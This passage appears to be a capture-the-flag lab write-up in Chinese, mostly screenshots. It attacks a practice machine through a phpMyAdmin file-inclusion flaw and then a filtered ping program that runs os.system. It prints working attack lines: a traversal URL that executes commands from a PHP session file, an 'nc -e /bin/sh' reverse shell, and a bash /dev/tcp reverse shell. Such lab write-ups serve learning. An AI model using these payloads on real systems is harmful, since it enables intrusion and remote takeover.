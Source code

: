 ![image](https://hackmd.io/_uploads/Hy_ug6lG0.png)

![image](https://hackmd.io/_uploads/By2--pgGR.png)


試試看它會不會回傳

http://10.10.10.143/phpmyadmin/index.php?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_dnsvt1bgct034jrppkv99ag4btlu8qn6

phpMyAdmin:"dnsvt1bgct034jrppkv99ag4btlu8qn6"

![image](https://hackmd.io/_uploads/rJGu4alzC.png)

sess 後面接的是這個

![image](https://hackmd.io/_uploads/S1yjVpgz0.png)

把id 改成下面那串，然後要先開監聽
http://10.10.10.143/phpmyadmin/index.php?cmd=nc%20-e%20/bin/sh%2010.10.14.4%201111&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_0rhfbdu629c33vqc5s95pg9496s7o4fo
nc -e /bin/sh 10.10.14.4 1111

![image](https://hackmd.io/_uploads/By7FBTgGC.png)

### pepper

好像只能變成pepper (?)

![image](https://hackmd.io/_uploads/ryJJ86lMA.png)

這看起來是個可以ping ip 的程式

![image](https://hackmd.io/_uploads/rkHXLTxzR.png)

壞消息是它有過濾
好消息是它用os.system 執行程式

![image](https://hackmd.io/_uploads/r1SRI6xGC.png)

so it worked

![image](https://hackmd.io/_uploads/ByHuuagGC.png)

所以我在tmp 寫了一個reverse shell ，然後開監聽，用前面的方式執行它

bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

![image](https://hackmd.io/_uploads/HySLFTgMR.png)

### user.txt

![image](https://hackmd.io/_uploads/SyJdYpeGA.png)

